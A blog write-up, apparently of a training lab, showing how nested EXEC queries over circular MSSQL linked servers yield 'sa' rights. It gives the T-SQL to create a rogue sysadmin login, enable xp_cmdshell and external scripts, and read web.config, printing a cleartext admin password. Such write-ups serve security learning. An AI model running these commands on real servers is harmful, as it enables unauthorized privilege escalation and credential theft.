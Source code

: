 ```yaml
---
title: Abusing MSSQL Linked Servers [ Adding SA User & File Read ]
author: r0b0tG4nG
date: 2021-12-16 10:18:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, python , xp_cmdshell, sp_execute_external_script]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146367126-2c4334c7-4664-4581-9ab7-bcc2b0d9da0b.png)<br><br>


**> Information Gathering**<br>

Microsoft SQL Server is a <a href="https://en.wikipedia.org/wiki/Relational_database_management_system">relational database management system</a> developed by <a href="https://en.wikipedia.org/wiki/Microsoft">Microsoft</a>. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications which may run either on the same computer or on another computer across a network (including the Internet).<br>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library. More Information can be found at <a href="https://github.com/SecureAuthCorp/impacket">
SecureAuth Corporation</a><br>

In this engagement, we will use <a href="https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_24/examples/mssqlclient.py">Impacket-mssqlclient.py</a> script. First we will login to the mssql service using the `mssql-client.py`, to do this we will parse the database credentials and ip as agruments to the `mssql-client.py` script. `impacket-mssqlclient external_user:"#p00Public3xt3rnalUs3r#"@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365268-90142593-59e6-4a33-8d10-1f6d3286ea9b.png)<br>

After logging in to the mssql database, we will haev to check if the user has sysadmin privileges on the databases. This can be done by querying the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver15">syslogins table</a> using the command `SELECT name,sysadmin from syslogins;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365388-6c93e881-bde7-493d-842c-d4423239c15d.png)<br>

The database has two users `sa` & `external_user`. From the output, we can see the current user doesn't have `sysadmin privileges`, which means we can't use <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15">xp_cmdshell</a> to execute OS commands. We can check this by trying to enable `xp_cmdshell`<br>
![image](https://user-images.githubusercontent.com/67085453/146365484-c895eebc-9914-4b07-8b40-5c2e1cd12635.png)<br>

Microsoft SQL servers provides the ability to link external resources such as Oracle databases and other SQL servers. This is common to find in domain environments and can be exploited in case of misconfigurations. To verify if there are any linked servers on the current database, we will have to query the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver15">sysservers table</a> by executing the command `select srvname,isremote from sysservers;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365758-f02ba0e1-f680-487e-8edd-3302e1026288.png)<br>

Quering the table displayed two entries: `POO_PUBLIC (current server)` and `POO_CONFIG`. According to the documentation, `isremote column` determines if a server is linked or not. The `value 1` stands for `remote server`, while the value `0 stands for a linked server`. From this, we can conclude that `POO_CONFIG` is a linked server.<br>

From the docs, `EXEC` statement can be used to execute queries on linked servers. The next step is to find out the user in whose context we will be able to query the linked server. To do this, we will type `EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`<br>
![image](https://user-images.githubusercontent.com/67085453/146365942-3a17d65c-fa93-457b-b35e-8c9486a698e5.png)<br>

The queries on the linked server `POO_CONFIG` are running as `internal_user`. To do greater damage, in this scenario, we will need the permissions of the `sa` user, so its best to check is the `internal_user` is `sa` on the targett or has `sa` privileges assigned to this user. To do this, we will execute the commmand `EXECUTE ('SELECT name,sysadmin from syslogins;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366041-0c7e6ba7-4f7f-4d23-9751-e64b5f691fcc.png)<br>

Bad luck on our side, the user `internal_user` is also not a `sysadmin` on the target. That is not the end remember this target has linked databases so we can try to enumerate the `POO_CONFIG` server to see if it has more links. We can recon on more links using `EXECUTE ('select srvname,isremote from sysservers;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366129-93d9a1e9-7d5a-4ad1-bdc9-c266f4e62d5e.png)<br>



**> Adding SA User**<br>

From the image above, we can see that `POO_CONFIG` is in turn linked to `POO_PUBLIC`, making it a circular link. This is good news to the eyes since we can use nested queries to find out what user we're running as. Let's execute this command `EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366345-e90d8172-c3a7-4b0c-850f-1a1553ccae17.png)<br>

A nested `EXEC statement` is used to find the username after crawling back from the `POO_CONFIG link`. The query returned `sa`, which means that the link allows us to execute queries as the `sysadmin user` on our current database `POO_PUBLIC`. The diagram below shows how the links are crawled in order to attain `sa privileges`. We can use these privileges to change the `sa password` on `POO_PUBLIC`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366439-f55a6706-98fe-4852-89c1-ce94c45b4d8e.png)<br>

With this information, we can add a new `sa user` to the `POO_PUBLIC` database using a nested query. We will add a new SQL user named `r0b0t` with the password `P@ssword123` . The `r0b0t` user will be granted `sysadmin level privileges`. To avoid errors, we all single quotes should be escaped with another quote.<br>

We now add the `r0b0t` user and also grant him the `sysadmin privileges`. To achieve this, we will use the following commands. <br> 
`EXECUTE('EXECUTE(''CREATE LOGIN r0b0t WITH PASSWORD = ''''P@ssword123'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG" `<br>
`EXECUTE('EXECUTE(''sp_addsrvrolemember ''''r0b0t'''' , ''''sysadmin'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`<br>
![image](https://user-images.githubusercontent.com/67085453/146366521-20ad5699-cced-436f-a8ba-643acd48d2b9.png)<br>

The command was executed successfully without any errors. We can login to the `mssql` database using the username `r0b0t` & password `P@ssword123`. To achieve this, we will need `impacket-mssqlclient` script with the argument `impacket-mssqlclient r0b0t:'P@ssword123'@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366926-91d93953-d63f-431f-acb4-305e1f275077.png)<br>


**> File Read Using sp_execute_external_script**<br>

After a successful login with the `r0b0t` user credentials, we know this user has `sysadmin-level` privileges thus can enable and execute system commands using the `xp_cmdshell` stored procedure. To enable `xp_cmdshell` in `mssqlcient.py`, we will use the command `enable_xp_cmdshell` and install the new configuration using `RECONFIGURE`.We can test code execution using the command `xp_cmdshell whoami`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375130-72777aea-8a3a-4a93-91ab-7a3bebc1a2e6.png)<br>

The SQL Server service found to be running as a standard service account. The `IIS web.config` file mostly contains credentials. Our main target now is to grab the contents of this file. We can siimply do this using `xp_cmdshell icacls c:\inetpub\wwwroot\web.config`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375013-823bec14-6cc3-4170-a2e4-bd60f15c312e.png)<br>

Looks like we do not have permissions to read that file. What could be the problem? `icacls` is blocked on the target or we just lack permissions. So i tried to read other files on the target using the command `xp_cmdshell icacls c:\windows\system32\drivers\etc\hosts`.<br>
![image](https://user-images.githubusercontent.com/67085453/146374700-0a784fe4-ceb3-47bf-8a74-e75e8bd3fdb7.png)<br>

So `icacls` works perfect all we need is to find a new way to read files on the target through `mssql`. After digging around, i found out that there is an `SQL Server feature` called <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>. This stored procedure allows us to execute external scripts written in `Ruby` or `Python`. So first we have to enable this procedure to test some python codes. To enable this feature, we will use the command `EXEC sp_configure 'external scripts enabled', 1` and install this configuration with the command `RECONFFIGURE`.<br> 
![image](https://user-images.githubusercontent.com/67085453/146375288-30077f0f-80f1-4d9b-8d1e-d6c58acd17e6.png)<br>

With the feature enabled, We will build our external script using the python sample located at <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a> main page. For test purposes, we will look at executing an `external python script` to print out a text on our screen using the command `EXEC sp_execute_external_script @language = N'Python', @script = N'print( "r0b0t Test Print" );';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374831-be485bc8-96a8-4b84-9363-79f30bb30f22.png)<br>

Our external python script works good the next thing we have to do is to read the `web.config` file from `c:\inetpub\wwwroot\` directory. To do this, we will import python `os module` and execute the command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("type C:\inetpub\wwwroot\web.config");';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374932-be5d8c9c-eea8-4bee-b2d6-6513b4175c6a.png)<br>

Hehehee guess what?? we did it. We are able to read files on the target using `external python scripts`. Fruits of the hunt?? we actually found the credentials in the `web.config` file.
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```

 I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>